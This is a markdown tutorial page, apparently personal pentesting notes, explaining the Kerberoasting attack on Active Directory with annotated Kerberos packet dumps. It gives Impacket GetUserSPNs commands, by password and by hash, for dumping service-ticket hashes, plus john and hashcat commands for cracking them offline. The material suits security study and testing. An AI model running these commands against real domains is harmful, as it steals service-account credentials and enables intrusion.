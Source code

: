 # Kerberoasting

Kerberoasting is an attack that targets the Kerberos authentication protocol to extract service account credentials. 

- The attack exploits the way Kerberos handles service tickets (TGS-REP). 
- Service Tickets are encrypted with service account's NTLM hash.
- So, By requesting service tickets for all SPNs (Service Principal Names), an attacker can perform offline brute-force attack to obtain plaintext passwords.

Here's how it works:

- **TGT-REQ:** Client send its TGT + authenticator (encrypted with session key) and the service name to the Ticket Granting Server.

- **TGS-REP:** Ticket Granting server verifies the TGT and responds with the Service Ticket Encrypted with the Service account password hash + a new session key encrypted with old session key.

### TGS REQ

```
Kerberos TGS-REQ
	pvno: 5
	msg-type: krb-tgs-req (12)
	padata: 1 item
	    PA-DATA
            padata-type: pA-TGS-REQ (1)
            padata-value: 6e82953d308290539a003920105
	req-body
	    Padding: 0
	    kdc-options: 40810010 (hex)
	    realm: DOMAIN.COM
	    sname:
            name-type: kRB5-NT-MS-PRINCIPAL (-128)
            sname-string:
               SNameString: DOMAIN.COM\web_srv
	    till: Jul 8, 2025 03:54:18.000000000 IST
	    nonce: 665478473
	    etype:
	        eTYPE-ARCFOUR-HMAC-MD5 (23) [RC4]
	        eTYPE-DES3-CBC-SHA1 (16)
	        eTYPE-DES-CBC-MD5 (3)
	        eTYPE-ARCFOUR-HMAC-MD5 (23) [RC4 - repeated]
	    
```

- padata: TGT (encrypted with KDC secret key) + timestamp (encrypted with session key)
- sname: service name
### TGS REP

```
Kerberos TGS-REP
	pvno: 5
	msg-type: krb_tgs_rep 13
    crealm: DOMAIN.COM
	cname:
	    nametype: 1 (kRB5-NT-PRINCIPAL)
	    name: bob
	ticket
	    tkt-vno: 5
	    realm: DOMAIN.COM
	    sname:
	        nametype: -128 (kRB5-NT-MS-PRINCIPAL)
	        snamesting: DOMAIN.COM\web_svc
	    enc-part
	        etype: 23 (RC4 - ARCFOUR-HMAC-MD5)
	        kvno: 2
	        cipher: d5a12d0d96c40db1e1c923ac35a8bbb965ef275a8899a48fede4
	enc-type:
	    enctype: 23 (RC4 - ARCFOUR-HMAC-MD5)
	    cipher: a7e146fddf968e4b838ccae2687944c04fa3519d2fea8aeddff42

```

- cname: Client requesting the ticket.
- ticket: Service ticket for web_svc.
- ticket.enc-part: The ticket encrypted with the service's key (web_svc's password hash only the service and KDC know this key).
- enc-type: here again session key, encrypted with the session key from TGT.

```
$krb5tgs$23$*web_svc$DOMAIN.COM$domain.com/web_svc*d5a12d0d96c40db1e1c923ac35a8bbb965ef275a8899a48fede4...
```

## Performing Kerberoasting with Impacket

**With a password**
```
impacket-GetUserSPNs <domain>/username:password -outputfile hashes.txt -request -dc-ip <domain_controller_ip>
```

```
GetUserSPNs.py <domain>/<username>:<password> -dc-ip <domain_controller_ip> -request
```

**With a hash**
```
impacket-GetUserSPNs -hashes <lmhash>:<nthash> <domain>/username -outputfile hashes.txt -request -dc-ip <domain_controller_ip>
```

```
GetUserSPNs.py -request -hashes LMHASH:NTHASH <domain>/<username>:<ntlm_hash> -dc-ip <domain_controller_ip>
```

![image info](../assets/Pasted%20image%2020250721115853.png)

## Crack Kerberose Hash

```
john --format=krb5tgs --wordlist=/usr/share/wordlist/rockyou.txt hash.txt
```

```
hashcat -m 13100 -a 0 hash.txt /usr/share/wordlist/rockyou.txt
```

![image info](../assets/Pasted%20image%2020250721122054.png)